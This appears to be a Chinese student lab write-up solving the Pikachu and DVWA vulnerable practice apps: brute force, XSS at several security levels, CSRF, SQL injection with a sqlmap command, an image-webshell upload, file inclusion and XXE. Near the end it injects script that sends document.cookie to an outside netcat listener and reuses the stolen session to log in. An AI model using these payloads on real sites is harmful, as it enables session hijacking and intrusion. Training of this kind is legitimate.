


# pikachu的暴力破解

#### 基于表单的暴力破解


#### 验证码绕过(on server)   前端验证码，可以重复利用


#### 验证码绕过(on client)   可以重复利用


#### token防爆破?


#### 捕获token


#### 第二份token递归提取


#### 鱼叉爆破成功


## 反射型xss(get)


破除限长


## 反射性xss(post)

```
<script>alert(document.cookie)</script>
```


## 存储型xss

```
<script>alert(document.cookie)</script>
```


## DOM型xss

被拼接到了a标签


## DOM型xss 2 

和上一题一样


## xss盲打

```
<script>alert(1)</script>
```


## xss之过滤   script被过滤了


用a标签代替

```
<a href="" onclick="alert('xss')">
```


## xss之htmlspecialchars

被拼接到a标签


```
' onclick='alert("xss")
```


## xss之href输出


被转义，无法闭合


用JavaScript

```
javascript:alert(1)
```


## xss之js输出

```
</script><script>alert('xss')</script>
```


闭合前面的script


## CSRF(get)

第一个是get


get直接生成poc



## CSRF(post)

同上，正常需要配合存储型dom


## sql  数字型注入

##### 确定数字型


联合查询版本

****

### 字符型注入（get）


单引号破坏结构报错

```
1' union select group_concat(table_name),2 from information_schema.tables where table_schema=database() --+&submit=查询
```


### 搜索型注入

```
python sqlmap.py -u "http://47.242.11.182:8080/vul/sqli/sqli_search.php?name=1&submit=搜索" --dbs
```


上传一个img直接连接


## 服务端check

如图


做一个优质的图片马


上传图片马


```
/vul/unsafeupload/uploads/2025/09/14/70963868c6a952e4327478598094.png
```

```
filename=../../unsafeupload/uploads/2025/09/14/70963868c6a952e4327478598094.png&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

文件包含连接


## xxe漏洞

```
<?xml version="1.0" encoding="UTF-8" ?>
 
<!DOCTYPE note [
    <!ENTITY test "hello world">
]>
 
<name>&test;</name>

```


# 1 xss dom

## low


#### default有可能是个传参点

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=%3Cscript%3Ealert(1)%3C/script%3E
```


## mid

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=%3Cimg%20src=#%20onerror=alert(1)%3E
```




## high

```
http://8.148.75.207:55/vulnerabilities/xss_d/?default=Spanish#%3Cscript%3Ealert(1)%3C/script%3E
```


# xss(reflected)

## low

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cscript%3Ealert(1)%3C/script%3E
```


## mid

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cscr%3Cscript%3Eipt%3Ealert(1)%3C/script%3E
```


## high

```
http://8.148.75.207:55/vulnerabilities/xss_r/?name=%3Cimg%20src%20=%201%20onerror%20=%20alert(1)%3E#
```


# xss stored

## low


每次进入网站会弹出来


## mid

##### 删除low的记录


同样先修改字符限制，在写入XSS代码,<script>标签被过滤了


双写解决

```
<scri<script>pt>alert(1)</script>
```


成功弹窗


# high

#### 删除mid记录

```

```


服务器安装nc开启监听

```
sudo apt install netcat-openbsd -y
nc -lvp 8888
```


传本机的cookie到nc机器

```
<script>new Image().src="http://13.75.42.219:8888/?output="+document.cookie;</script>

```


nc机器成功监听到cookie


获取cookie

```
GET /?output=PHPSESSID=59147pmbmgig63dgmdeubu7827;%20security=low HTTP/1.1
```


# 作业三 通过cookie登录

此时新设备登录没有密码


hackback构造cookie成功登录进去

